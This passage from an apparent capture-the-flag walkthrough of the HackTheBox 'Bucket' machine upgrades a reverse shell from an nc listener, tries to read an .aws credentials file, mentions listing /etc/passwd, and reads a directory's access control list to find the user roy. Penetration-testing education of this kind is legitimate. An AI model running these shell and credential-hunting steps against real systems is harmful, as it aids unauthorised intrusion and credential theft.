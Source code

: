 Now let's upgrade our shell, using the backgrounding shell trick:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bucket:/$ ^Z  
[1]+  Stopped                 nc -lnvp 9001
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ stty raw -echo
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
nc -lnvp 9001

www-data@bucket:/$ 
```

## Enumeration

Looking around the root directory, we see an `.aws` folder, which I know from experience contains credentials:

```bash
www-data@bucket:/$ cd .aws
www-data@bucket:/.aws$ ls
config	credentials
www-data@bucket:/.aws$ cat credentials
cat: credentials: Permission denied
```

However we cannot read it.

Going to the home directory, we see a new folder called `bucket-app`. This is also root-only readable, but has a mysterious `+` next to it.

```bash
www-data@bucket:/.aws$ cd ~
www-data@bucket:/var/www$ ls -la
total 16
drwxr-xr-x   4 root root 4096 Feb 10 12:29 .
drwxr-xr-x  14 root root 4096 Feb 10 12:29 ..
drwxr-x---+  4 root root 4096 Feb 10 12:29 bucket-app
drwxr-xr-x   2 root root 4096 Apr 29 09:07 html
```

When I first did this box, I tried looking for a user to escalate to with the credentials I had found in DDB. I did this by listing the contents of the `/home` directory, and found the `/home/roy` directory.

Other ways of discovering `roy` included:
- Running `cat /etc/passwd` to list the users on the box
- Running `getfacl bucket-app` to view the access control list on the `bucket-app` directory

The `+` next to the filename is what indicates we can do the latter - it shows there is an extra permission on the file besides the usual `rwx` permissions of Linux - this is usually an Access Control List, or ACL, and can be read with the `getfacl` command:

```bash
www-data@bucket:/var/www$ getfacl bucket-app
# file: bucket-app
# owner: root
# group: root
user::rwx
user:roy:r-x
group::r-x
mask::r-x
other::---
```
